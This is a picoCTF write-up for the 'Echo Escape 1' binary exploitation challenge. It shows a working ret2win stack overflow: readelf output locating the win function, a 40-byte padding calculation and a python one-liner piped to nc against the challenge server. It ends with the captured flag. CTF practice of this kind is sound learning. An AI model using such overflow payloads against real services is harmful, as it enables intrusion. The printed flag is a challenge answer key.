

# 🗣️ Echo Escape 1 (picoCTF)
- **Category:** Binary Exploitation
- **Points:** 100
- **Difficulty:** Medium
- **Format:** Stack Buffer Overflow / ret2win

---

## 📖 Challenge Overview
The "secure" echo service welcomes you politely... but what if you don't stay polite? Can you make it reveal the hidden flag? You can download the program file and source code.



---

## 💻 Command Flow

### 1. Finding the Target Address
We use `readelf` to find the memory address of the target `win` function:
```bash
┌──(kali㉿kali)-[~/pico-ctf-notes/06-Binary-Exploitation/Echo-Escape]
└─$ readelf -a vuln | grep win
No processor specific unwind information to decode
    63: 0000000000401256   165 FUNC    GLOBAL DEFAULT   15 win
```
The output shows that the `win` function is located at `0x401256`.

### 2. Exploit Construction & Execution
To redirect the program's execution flow, we need to overwrite the return address on the stack:
- **Offset calculation:** The buffer `buf` takes 32 bytes and the saved Frame Pointer (RBP) takes 8 bytes, requiring a total of `40` bytes of padding (`'A' * 40`).
- **Address formatting:** The target address is `0x401256`. In 64-bit Little-Endian format, it is represented as `\x56\x12\x40\x00\x00\x00\x00\x00`. 
  - `\x56` represents the ASCII character `V`.
  - `\x40` represents the ASCII character `@`.
  - This results in the string representation `V\x12@\x00\x00\x00\x00\x00` in our python command.

We run python and pipe the input to the netcat server:
```bash
┌──(kali㉿kali)-[~/pico-ctf-notes/06-Binary-Exploitation/Echo-Escape]
└─$ python3 -c "print('A'*40+'V\x12@\x00\x00\x00\x00\x00')" | nc mysterious-sea.picoctf.net 56660
Welcome to the secure echo service!
Please enter your name: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAV
Thank you for using our service.
picoCTF{3ch0_s3rv1c3_br34k5_d51d6163}
```

---

## 🚩 Flag

```text
picoCTF{3ch0_s3rv1c3_br34k5_d51d6163}
```
